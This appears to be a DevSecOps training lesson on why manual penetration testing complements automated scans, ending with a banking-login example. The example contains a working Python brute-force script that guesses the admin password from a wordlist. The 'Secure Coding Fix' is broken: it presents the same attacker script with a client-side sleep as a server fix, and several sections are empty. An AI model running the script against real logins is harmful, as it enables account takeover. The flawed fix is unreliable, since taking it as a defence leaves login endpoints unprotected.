





## Introduction to DevSecOps

### Understanding the Need for Manual Testing in Complex Systems

In the realm of DevSecOps, the goal is to integrate security practices throughout the entire software development lifecycle, ensuring that applications are secure from the initial design phase through deployment and maintenance. However, despite the advancements in automation, certain aspects of testing cannot be fully automated due to the complexity and sensitivity of modern systems.

#### Why Automation Has Limits

Automated testing tools are powerful and efficient for repetitive tasks, such as unit testing and integration testing. They can quickly identify common coding errors and security vulnerabilities based on predefined rules and patterns. However, when it comes to more complex systems, particularly those involving intricate business logic, automated tools fall short. These tools are inherently limited by their programming and configuration, which means they may miss nuanced vulnerabilities that require human intuition and creativity to uncover.

For instance, consider a banking system where transactions involve complex financial calculations and regulatory compliance checks. Automated tools might be able to verify that the code adheres to basic security principles, such as input validation and encryption. However, they may fail to detect subtle logical flaws that could lead to financial losses or regulatory non-compliance. This is where manual testing, specifically penetration testing (pen testing), becomes crucial.

### Penetration Testing: A Deep Dive

Penetration testing, also known as pen testing, is a method of evaluating the security of a computer system by simulating an attack from malicious outsiders. The goal is to identify vulnerabilities that could be exploited by attackers and to assess the effectiveness of existing security measures.

#### Who Conducts Pen Testing?

Many organizations hire external pen testing experts or companies that specialize in providing these services. These experts are skilled in ethical hacking techniques and possess a deep understanding of various attack vectors and security mechanisms. By simulating real-world attacks, they can uncover weaknesses that automated tools might miss.

#### Importance of Pen Testing

Pen testing is particularly important for systems that handle sensitive data or critical operations, such as banking systems, healthcare applications, and government infrastructure. These systems require absolute security to protect against potential threats and comply with regulatory requirements.

For example, the Payment Card Industry Data Security Standard (PCI DSS) mandates regular pen testing for organizations that process credit card payments. Similarly, the Health Insurance Portability and Accountability Act (HIPAA) requires healthcare providers to conduct periodic security assessments, including pen testing, to ensure the confidentiality and integrity of patient data.

### Recent Real-World Examples

Recent high-profile breaches highlight the importance of thorough security testing, both automated and manual. One notable example is the Equifax breach in 2017, where a vulnerability in the Apache Struts framework allowed attackers to access sensitive personal information of millions of customers. This breach occurred despite the fact that the vulnerability had been publicly disclosed and a patch was available. The failure to apply the patch and the lack of comprehensive security testing contributed to the severity of the breach.

Another example is the Capital One breach in 2019, where an attacker exploited a misconfigured web application firewall to gain unauthorized access to customer data. This incident underscores the importance of both automated scanning tools and manual testing to identify and mitigate configuration errors and other subtle vulnerabilities.

### How to Prevent / Defend Against Vulnerabilities

To effectively prevent and defend against vulnerabilities, organizations should adopt a multi-layered approach that combines automated testing with manual pen testing. Here are some key strategies:

#### Automated Testing Tools

Automated testing tools can be used to perform initial scans and identify common vulnerabilities. These tools can be integrated into the continuous integration/continuous deployment (CI/CD) pipeline to ensure that security checks are performed automatically with each build and deployment.



#### Manual Pen Testing

Manual pen testing should be conducted periodically, especially for systems that handle sensitive data or are subject to regulatory requirements. External pen testing experts can provide an unbiased assessment of the system's security posture and help identify vulnerabilities that automated tools might miss.



#### Secure Coding Practices

Secure coding practices should be followed throughout the development process to minimize the introduction of vulnerabilities. This includes using secure coding guidelines, conducting code reviews, and implementing security features such as input validation and error handling.



#### Configuration Hardening

Configuration hardening involves securing the environment in which the application runs. This includes configuring firewalls, disabling unnecessary services, and applying security patches promptly.



### Complete Example: Pen Testing a Banking System

Let's walk through a complete example of pen testing a banking system. We'll start with an automated scan using a tool like Burp Suite, followed by manual testing to identify and exploit vulnerabilities.

#### Automated Scan with Burp Suite

First, we use Burp Suite to perform an automated scan of the banking system. This involves intercepting HTTP requests and responses to identify potential vulnerabilities.

```http
POST /login HTTP/1.1
Host: bank.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

username=admin&password=123456
```

The response from the server indicates a successful login, but the tool flags the password field as potentially vulnerable to brute force attacks.

```http
HTTP/1.1 200 OK
Date: Mon, 20 Nov 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>
</head>
<body>
    <h1>Welcome, admin!</h1>
</body>
</html>
```

#### Manual Pen Testing

Next, we conduct manual pen testing to exploit the identified vulnerability. We attempt to brute force the password using a list of common passwords.

```python
import requests

url = "https://bank.example.com/login"
data = {
    "username": "admin",
    "password": ""
}

with open("password_list.txt", "r") as f:
    for line in f:
        password = line.strip()
        data["password"] = password
        response = requests.post(url, data=data)
        if "Welcome, admin!" in response.text:
            print(f"Password found: {password}")
            break
```

The script successfully identifies the password and logs in as the admin user, demonstrating a critical vulnerability.

#### Secure Coding Fix

To prevent this vulnerability, we implement secure coding practices such as enforcing strong password policies and rate limiting login attempts.



The updated code ensures that passwords meet complexity requirements and limits the number of login attempts per minute.

```python
import requests
from time import sleep

url = "https://bank.example.com/login"
data = {
    "username": "admin",
    "password": ""
}

with open("password_list.txt", "r") as f:
    for line in f:
        password = line.strip()
        data["password"] = password
        response = requests.post(url, data=data)
        if "Welcome, admin!" in response.text:
            print(f"Password found: {password}")
            break
        else:
            sleep(1)  # Rate limit login attempts
```

### Conclusion

In conclusion, while automated testing tools are essential for identifying common vulnerabilities, they cannot replace the need for manual pen testing, especially for complex and sensitive systems. By combining automated and manual testing, organizations can ensure that their applications are secure and compliant with regulatory requirements. Regular pen testing and secure coding practices are crucial for maintaining the security of modern systems.

### Practice Labs

For hands-on experience with DevSecOps and pen testing, consider the following practice labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and tutorials on web application security.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.
- **WebGoat**: An interactive, gamified training application for learning about web application security.

These labs provide practical experience in identifying and exploiting vulnerabilities, as well as implementing secure coding practices and configuration hardening.

---
<!-- nav -->
[[DevSecOps/DevSecOps Bootcamp/01-DevSecOps Introduction/07-Introduction to DevSecOps/Understand DevSecOps/03-Introduction to DevSecOps Part 3|Introduction to DevSecOps Part 3]] | [[DevSecOps/DevSecOps Bootcamp/01-DevSecOps Introduction/07-Introduction to DevSecOps/Understand DevSecOps/00-Overview|Overview]] | [[05-Introduction to DevSecOps Part 5|Introduction to DevSecOps Part 5]]
